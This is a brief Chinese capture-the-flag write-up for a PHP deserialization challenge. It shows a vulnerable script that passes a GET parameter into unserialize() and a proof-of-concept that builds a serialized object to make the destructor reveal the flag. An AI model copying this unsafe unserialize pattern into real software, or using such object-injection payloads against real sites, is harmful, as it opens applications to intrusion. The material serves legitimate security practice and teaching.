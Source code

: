 

## 反序列化

### ez_unserialize

f12给了robots.txt的内容格式

查看robots.txt得到关键文件`cl45s.php`

```php
# cl45s.php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```

poc

```php
<?php

class wllm{

    public $admin="admin";
    public $passwd="ctf";
}

$a = new wllm();
echo serialize($a);

#
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```
